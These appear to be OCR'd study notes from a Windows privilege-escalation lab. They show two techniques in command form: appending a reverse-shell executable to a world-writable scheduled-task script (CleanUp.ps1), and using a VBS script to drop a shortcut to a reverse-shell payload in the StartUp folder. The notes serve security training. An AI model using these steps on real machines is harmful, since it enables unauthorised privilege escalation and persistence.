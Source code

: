 **`Scheduled Tasks`**

scheduled task like cron job in linux.

- list scheduled tasks

`Get-ScheduledTask`
`schtasks /query`

- check file permission

`icacls C:\DevTools\CleanUp.ps1`
`C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`
writable everyone.

- edit  `CleanUp.ps1` 

`echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`



**`StartUp Apps`**

- check startup directory.

`C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`


- create shortcut for payload.

 `C:\PrivEsc\CreateShortcut.vbs`  -> `rev.exe`

`cscript C:\PrivEsc\CreateShortcut.vbs`




